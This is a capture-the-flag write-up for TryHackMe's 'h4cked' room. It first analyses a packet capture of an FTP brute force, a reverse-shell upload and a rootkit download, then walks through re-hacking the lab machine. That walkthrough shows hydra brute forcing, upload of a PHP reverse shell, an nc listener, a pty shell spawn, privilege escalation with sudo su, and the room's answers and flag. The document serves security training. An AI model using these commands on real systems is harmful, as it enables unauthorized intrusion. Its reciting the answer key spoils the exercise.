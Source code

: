 # TryHackMe [h4cked](https://tryhackme.com/room/h4cked)
## Oh no! We've been hacked!
### The attacker is trying to log into a specific service. What service is this?
* Hint:
> Port 21
* Port 21 usually directs to an FTP server.

**Answer**: `FTP`
### There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
**Answer**: `hydra`
### The attacker is trying to log on with a specific username. What is the username?
* The username `jenny` is mentioned in multiple TCP queries:
![TCP queries with username of Jenny](jenny_ftp.jpg)

**Answer**: `jenny`
### What is the user's password?
* The password `password123` with username `jenny` resulted in a successful FTP connection:
![password of `password123`](password123.jpg)

**Answer**: `password123`
### What is the current FTP working directory after the attacker logged in?
1. Filter by FTP.
2. Look for the first mentioning of a current directory:
![current directory of `/var/www/html`](current_directory.jpg)

**Answer**: `/var/www/html`
### The attacker uploaded a backdoor. What is the backdoor's filename?
* A file called `shell.php` was uploaded, which was later given executable permissions:
![PHP code bing uploaded](shell_php.jpg)

**Answer**: `shell.php`
### The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
* Hint:
> Look at the FTP-DATA protocol
* The 2nd FTP-DATA query contains the entire PHP file:
![2nd FTP-DATA query contents](ftp_data.jpg)

**Answer**: `http://pentestmonkey.net/tools/php-reverse-shell`
### Which command did the attacker manually execute after getting a reverse shell?
1. Filter by the 20th TCP stream: `tcp.stream == 20`, which starts after the HTTP GET request for `shell.php`.
2. Follow the stream:
![TCP stream from reverse shell traffic](tcp_stream.jpg)
3. The first command is `whoami`.

**Answer**: `whoami`
### What is the computer's hostname?
* The hostname is visible after the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'` is executed, which is visible from the reverse shell's TCP stream..

**Answer**: `wir3`
### Which command did the attacker execute to spawn a new TTY shell?
* The attacker issued the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'`, which is visible from the reverse shell's TCP stream.

**Answer**: `python3 -c 'from pty import spawn; spawn("/bin/bash")'`
### Which command was executed to gain a root shell?
**Answer**: `sudo su`
### The attacker downloaded something from GitHub. What is the name of the GitHub project?
* The attacker issued the command `https://github.com/f0rb1dd3n/Reptile.git`, which is visible from the reverse shell's TCP stream.

**Answer**: `Reptile`
### The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
* Hint:
> A certain type of kit

**Answer**: `rootkit`
## Hack your way back into the machine
### Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

```bash
$ nmap -sC -sV 10.10.246.123
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-29 16:32 AEST
Nmap scan report for 10.10.246.123
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
$ hydra -l jenny -P rockyou.txt ftp://10.10.246.123
[21][ftp] host: 10.10.246.123   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

```bash
$ ftp 10.10.246.123
Name (10.10.246.123:applegamer22): jenny
Password: 987654321
ftp> ls
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
ftp> get shell.php
ftp> put shell.php
```

```bash
$ nc -lvnp 1234
$ python3 -c 'from pty import spawn; spawn("/bin/bash")'
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo su
[sudo] password for jenny: 987654321
root@wir3:/# cat /root/Reptile/flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```